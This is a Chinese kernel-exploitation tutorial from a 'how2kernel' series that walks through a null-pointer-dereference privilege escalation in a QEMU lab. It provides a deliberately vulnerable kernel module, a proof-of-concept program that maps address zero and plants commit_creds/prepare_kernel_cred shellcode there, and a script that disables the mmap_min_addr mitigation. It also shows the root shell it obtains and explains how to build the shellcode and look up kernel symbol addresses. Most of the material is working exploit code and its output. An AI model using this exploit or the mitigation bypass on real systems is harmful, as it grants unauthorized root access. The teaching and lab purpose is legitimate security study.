 # how2kernel————第二节null dereference

## Author: Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>环境搭建完了，我们就来先学一下最简单的null dereference的kernel漏洞利用，顾名思义，对未初始化的指针进行引用就会寻址到0地址，也就是null引用。如果程序中存在未初始化的函数指针，调用这个指针就会有一个类似call 0x00000000的行为。我们先来看一下32位下程序的内存分布：</font></br>

![内存分布](./000.JPG)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以假设我们有一个存在null dereference的漏洞的内核模块，当我们用一个用户进程去访问时，mmap映射一块从0开始的内存，然后在这块内存中布置好shellcode，然后调用未初始化函数指针时就会去调用我们的shellcode，完成提权攻击。所以有如下漏洞代码：</font></br>

```C
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>
void (*my_funptr)(void);
int bug1_write(struct file *file,const char *buf,unsigned long len)
{
        my_funptr();
        return len;
}
static int __init null_dereference_init(void)
{
        printk(KERN_ALERT "null_dereference driver init!\n");
        create_proc_entry("bug1",0666,0)->write_proc = bug1_write;
       return 0;
}
static void __exit null_dereference_exit(void)
{
        printk(KERN_ALERT "null_dereference driver exit\n");
}
module_init(null_dereference_init);
module_exit(null_dereference_exit);

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>看不懂内核代码也没事，我们即使看到init和exit也可以猜测到这是注册了初始化函数和退出函数。内核驱动的模块创建有一个约定就是用module_init注册驱动创建的主函数，然后用module_exit注册驱动的清理与卸载函数。这里我们用了null_dereference_init作为注册函数，然后函数很简单，没有申请设备号，没有注册设备，只是设置了一个入口函数，就是我们的漏洞函数bug1_write（用create_proc_entry返回的结构直接访问write_proc在高版本内核中已不可行），bug1_write调用了一个未初始化的函数指针。</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来我们看我们的用户层测试代码：</font></br>

```C
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

// xor eax,eax
// call prepare_kernel_cred 
// call commit_creds
// ret
// 等价于 commit_creds(parepare_kernel_cred(0));
char payload[] = "\x31\xc0\xe8\xb9\x7f\x6\xc1\xe8\x14\x7e\x6\xc1\xc3";

int main(){
    mmap(0, 4096,PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS ,-1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "fanda", 5);
    system("/bin/sh");
    return 0;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>当执行这个程序的时候，内存分布图是这样的</font>：</br>

![mmap](./001.JPG)

- mmap映射了最低处内存0的大小为0x1000的一块内存（并不是物理地址，是虚拟地址）；
- 在这块内存上布置了shellcode；
- 打开了之前创建的内核模块后调用write与之交互触发write_proc函数也就是我们之前设置为的bug1_write；
- null dereference访问到了mmap的内存处，执行了我们的shellcode。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>最终内存分布图是这样的：</font></br>

![shellcode](./002.JPG)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们在qemu虚拟机里创建用户进行测试，为了避免麻烦我们直接写一个脚本（makeuser.sh）用来安装模块创建用户，并重新用cpio生成文件镜像：</font></br>

```shell
#!/bin/sh

insmod *.ko
mkdir -p /home/fanda
touch /etc/passwd
touch /etc/group
adduser fanda

sysctl -w vm.mmap_min_addr="0"
su fanda

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这一句sysctl -w vm.mmap_min_addr="0"是什么意思？是因为在这个内核版本中内核已经有了设置mmap的最小地址为0x1000作为缓解措施，所以我们要关闭之。运行poc：</font></br>

```shell
/mytest # su fanda
/mytest $ ./poc
/mytest # whoami
whoami: unknown uid 0
/mytest # id
uid=0 gid=0
/mytest # exit
/mytest $ 
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>可以看到测试成功，我们成功完成提权。</font></br>



## 附录

**get shellcode**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>首先编写asm文件：</font></br>

```assembly
Section .text
        global _start
_start:
	xor eax,eax
	call 0xc1067fc0
	call 0xc1067e20
	ret

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>因为我比较懒，所以直接写了个脚本编译链接：</font></br>

```shell
#!/bin/sh

nasm -f elf32 null_dereference.asm  -o null_dereference.o
ld -s -Ttext=0  null_dereference.o -o null_dereference

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后直接使用objdump -s null_dereference就可以得到机器码了，不确定自己有没有写对的话就用-S参数看看汇编：</font></br>

```shell
➜  null_dereference objdump -S null_dereference

null_dereference:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	e8 b9 7f 06 c1       	call   0xc1067fc0
   7:	e8 14 7e 06 c1       	call   0xc1067e20
   c:	c3                   	ret   
➜  null_dereference objdump -s null_dereference

null_dereference:     file format elf32-i386

Contents of section .text:
 0000 31c0e8b9 7f06c1e8 147e06c1 c3        1........~...  
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>（此处再重复）因为我很懒所以我又写了个脚本：</font></br>

```python
import binascii
import sys

if __name__ == '__main__':

	result=''
	opcode=''
	for i in sys.argv[1:]:
		result+=binascii.a2b_hex(i)
	
	for i in result:
		opcode+='\\x'+hex(ord(i))[2:]

	print opcode

```

```shell
➜  shellcode python getopcode.py 31c0e8b9 7f06c1e8 147e06c1 c3
\x31\xc0\xe8\xb9\x7f\x6\xc1\xe8\x14\x7e\x6\xc1\xc3
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这就能得到我们最终的shellcode了，等等，这两个call的绝对地址是怎么来的？为什么是这两个函数？</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>在kernel中，给进程赋予root权限就是用prepare_kernel_cred()函数，参数用0表示root，然后commit_creds函数就是相当于提交凭证，就可以完成提权了，在我们用qemu生成的内核虚拟机的终端中用grep prepare_kernel_cred /proc/kallsyms就可以得到这些地址了（前提是内核未开启地址泄漏保护），同理也可以得到commit_creds函数的地址：</font></br>

```shell
/ # grep prepare_kernel_cred /proc/kallsyms 
c1067fc0 T prepare_kernel_cred
c15fcf3c r __ksymtab_prepare_kernel_cred
c1606504 r __kcrctab_prepare_kernel_cred
c160d1f9 r __kstrtab_prepare_kernel_cred
/ # grep commit_creds /proc/kallsyms 
c1067e20 T commit_creds
c11bc6f0 T security_commit_creds
c15fcf5c r __ksymtab_commit_creds
c1606514 r __kcrctab_commit_creds
c160d235 r __kstrtab_commit_creds
/ # 
```



**remote gdb**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>之前我们开启qemu虚拟机的时候用了-s参数开启了远程调试端口，所以我们只需要用gdb的target remote：1234就能attach上去了，还有一些要注意的是gdb要选取linux kernel文件夹下的vmlinux作为调试文件。然后最好添加symbol文件方便直接下断点，后面要跟一个模块基地址，基地址可以在insmod安装之后用这个命令取得：</font></br>

```shell
/mytest # cat /proc/modules 
null_dereference 725 0 - Live 0xc8831000 (P)
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>为了方便我还是写了一个gdbscript：</font></br>

```shell
➜  kernel cat gdbscript 
file /home/fanda/Desktop/file/linux-2.6.32.1/vmlinux
add-symbol-file /home/fanda/Desktop/file/busybox-1.29.3/_install/mytest/null_dereference.ko  0xc8831000
b bug1_write
target remote :1234
c
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以调试步骤是：</font></br>

- 先用（第一节的）boot.sh启动qemu虚拟机；
- 虚拟机里用makeuser.sh创建用户，安装模块，关闭保护；
- 用gdbscript attach上远程调试端口下断后继续执行。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>最终效果如下：</font></br>

![](./003.jpg)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>单步进入null dereference的函数之后可以看到我们的shellcode：</font></br>

![](./004.jpg)


